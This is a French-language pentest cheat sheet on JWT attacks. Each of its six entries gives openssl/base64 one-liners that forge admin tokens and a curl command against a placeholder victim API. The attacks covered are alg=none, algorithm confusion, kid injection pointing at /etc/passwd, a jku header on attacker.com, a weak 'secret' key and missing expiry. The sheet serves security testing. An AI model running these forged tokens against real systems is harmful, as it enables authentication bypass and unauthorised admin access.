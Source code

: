 # JWT

1. Faible vérification de signature ou acceptation de l’algorithme "none"  
   - Payload d’attaque neutre : Générer un JWT non signé avec echo -n '{"alg":"none","typ":"JWT"}' | openssl base64 -A | tr '+/' '-_' | tr -d '=' > h.txt ; echo -n '{"sub":123,"admin":true}' | openssl base64 -A | tr '+/' '-_' | tr -d '=' > p.txt ; export JWT="$(cat h.txt).$(cat p.txt)."  
   - Commande d’attaque : curl -H "Authorization: Bearer $JWT" https://site-victime.net/api/admin  
   - Commande d’analyse : Observer si l’accès à une ressource protégée est accordé malgré l’absence de signature (ex : code HTTP 200 ou accès admin).  
   - Élément d’analyse détaillé : Vérifier si l’application accepte des tokens JWT non signés ou avec alg=none, permettant la création de tokens arbitraires.  
   - Méthodologie détaillée : Générer un JWT avec alg=none, l’injecter dans une requête authentifiée, et observer si l’accès est accordé sans validation cryptographique.  
   - Source : https://www.invicti.com/blog/web-security/json-web-token-jwt-attacks-vulnerabilities/

2. Confusion d’algorithme (HS256 vs RS256)  
   - Payload d’attaque neutre : Générer un JWT HS256 signé avec la clé publique du serveur : export HEADER=$(echo -n '{"alg":"HS256","typ":"JWT"}' | openssl base64 -A | tr '+/' '-_' | tr -d '=') ; export PAYLOAD=$(echo -n '{"sub":123,"admin":true}' | openssl base64 -A | tr '+/' '-_' | tr -d '=') ; export DATA="$HEADER.$PAYLOAD" ; export SECRET="clé_publique_serveur" ; export SIGNATURE=$(echo -n $DATA | openssl dgst -sha256 -hmac "$SECRET" -binary | openssl base64 -A | tr '+/' '-_' | tr -d '=') ; export JWT="$DATA.$SIGNATURE"  
   - Commande d’attaque : curl -H "Authorization: Bearer $JWT" https://site-victime.net/api/admin  
   - Commande d’analyse : Vérifier si l’accès à une ressource protégée est accordé alors que la clé de signature utilisée est publique et non secrète.  
   - Élément d’analyse détaillé : Vérifier si l’application ne distingue pas correctement les algorithmes de signature, permettant de signer un token HS256 avec une clé publique.  
   - Méthodologie détaillée : Récupérer la clé publique du serveur (pour RS256), générer un JWT en HS256 signé avec cette clé, et tester l’accès à des endpoints protégés.  
   - Source : https://www.synetis.com/json-web-token-oauth-vulnerabilite-critique/

3. Injection ou manipulation du paramètre kid (Key ID)  
   - Payload d’attaque neutre : Générer un JWT avec kid malicieux : export HEADER=$(echo -n '{"alg":"HS256","typ":"JWT","kid":"key1|/etc/passwd"}' | openssl base64 -A | tr '+/' '-_' | tr -d '=') ; export PAYLOAD=$(echo -n '{"sub":123,"admin":true}' | openssl base64 -A | tr '+/' '-_' | tr -d '=') ; export DATA="$HEADER.$PAYLOAD" ; export SECRET="clé_connue" ; export SIGNATURE=$(echo -n $DATA | openssl dgst -sha256 -hmac "$SECRET" -binary | openssl base64 -A | tr '+/' '-_' | tr -d '=') ; export JWT="$DATA.$SIGNATURE"  
   - Commande d’attaque : curl -H "Authorization: Bearer $JWT" https://site-victime.net/api/admin  
   - Commande d’analyse : Observer si l’application utilise la valeur du champ kid pour charger une clé arbitraire ou exécuter une commande, ou si une erreur système apparaît dans la réponse.  
   - Élément d’analyse détaillé : Vérifier si l’application est vulnérable à l’injection dans le paramètre kid, permettant de détourner la récupération de la clé de vérification ou de provoquer une LFI.  
   - Méthodologie détaillée : Générer un JWT avec un champ kid malicieux, le signer, l’envoyer, et observer la réaction de l’application.  
   - Source : https://www.acunetix.com/blog/articles/json-web-token-jwt-attacks-vulnerabilities/

4. Contrôle externe de la clé via jku ou x5u  
   - Payload d’attaque neutre : Générer un JWT RS256 avec un header {"jku":"https://attacker.com/jwks.json"} et signer avec une clé privée correspondante à la clé publique du fichier jwks.json hébergé sur attacker.com (exemple avec jose-jwt : jose jwt sign --key private.pem --alg RS256 --header '{"jku":"https://attacker.com/jwks.json"}' --payload '{"sub":123,"admin":true}' > jwt.txt)  
   - Commande d’attaque : curl -H "Authorization: Bearer $(cat jwt.txt)" https://site-victime.net/api/admin  
   - Commande d’analyse : Vérifier si l’application récupère la clé publique depuis l’URL fournie dans jku/x5u et accepte le token signé par l’attaquant.  
   - Élément d’analyse détaillé : Vérifier si l’application accepte des URLs externes pour récupérer la clé de vérification, permettant à un attaquant de signer des tokens valides reconnus par le serveur.  
   - Méthodologie détaillée : Générer un JWT avec un champ jku/x5u pointant vers une clé publique contrôlée, le signer avec la clé privée correspondante, l’envoyer, et observer si le serveur accepte le token.  
   - Source : https://www.acunetix.com/blog/articles/json-web-token-jwt-attacks-vulnerabilities/

5. Réutilisation ou vol de clé secrète / signature faible  
   - Payload d’attaque neutre : Générer un JWT HS256 signé avec une clé faible ou prédictible (ex : "secret") : export HEADER=$(echo -n '{"alg":"HS256","typ":"JWT"}' | openssl base64 -A | tr '+/' '-_' | tr -d '=') ; export PAYLOAD=$(echo -n '{"sub":123,"admin":true}' | openssl base64 -A | tr '+/' '-_' | tr -d '=') ; export DATA="$HEADER.$PAYLOAD" ; export SECRET="secret" ; export SIGNATURE=$(echo -n $DATA | openssl dgst -sha256 -hmac "$SECRET" -binary | openssl base64 -A | tr '+/' '-_' | tr -d '=') ; export JWT="$DATA.$SIGNATURE"  
   - Commande d’attaque : curl -H "Authorization: Bearer $JWT" https://site-victime.net/api/admin  
   - Commande d’analyse : Vérifier si l’accès à la ressource est accordé avec un token signé par une clé faible ou connue, ou si la clé peut être brute-forcée.  
   - Élément d’analyse détaillé : Vérifier si la clé secrète utilisée pour signer les JWT est faible, prédictible ou exposée, permettant à un attaquant de forger des tokens valides.  
   - Méthodologie détaillée : Générer des tokens avec des clés faibles ou connues, les tester, ou utiliser des outils de brute-force sur la clé secrète.  
   - Source : https://guide-api-rest.marmicode.fr/securite-des-apis-rest/j.w.t./jwt-authentification-sessions-et-risques-securite

6. Mauvaise gestion de l’expiration ou absence de révocation  
   - Payload d’attaque neutre : Générer un JWT avec un champ "exp" très éloigné dans le temps ou sans champ "exp" du tout, par exemple export HEADER=$(echo -n '{"alg":"HS256","typ":"JWT"}' | openssl base64 -A | tr '+/' '-_' | tr -d '=') ; export PAYLOAD=$(echo -n '{"sub":123,"exp":9999999999}' | openssl base64 -A | tr '+/' '-_' | tr -d '=') ; export DATA="$HEADER.$PAYLOAD" ; export SECRET="secret" ; export SIGNATURE=$(echo -n $DATA | openssl dgst -sha256 -hmac "$SECRET" -binary | openssl base64 -A | tr '+/' '-_' | tr -d '=') ; export JWT="$DATA.$SIGNATURE"  
   - Commande d’attaque : curl -H "Authorization: Bearer $JWT" https://site-victime.net/api/admin  
   - Commande d’analyse : Observer si l’accès est toujours accordé bien après la déconnexion ou la révocation supposée de la session, ou si le token reste valide indéfiniment.  
   - Élément d’analyse détaillé : Vérifier si l’application ne révoque pas les tokens côté serveur ou accepte des tokens JWT sans vérification stricte de l’expiration, permettant leur réutilisation indéfinie.  
   - Méthodologie détaillée : Générer des tokens avec une durée de vie très longue ou sans expiration, les utiliser après déconnexion ou expiration, et vérifier l’accès.  
   - Source : https://laconsole.dev/formations/authentification/jwt

---
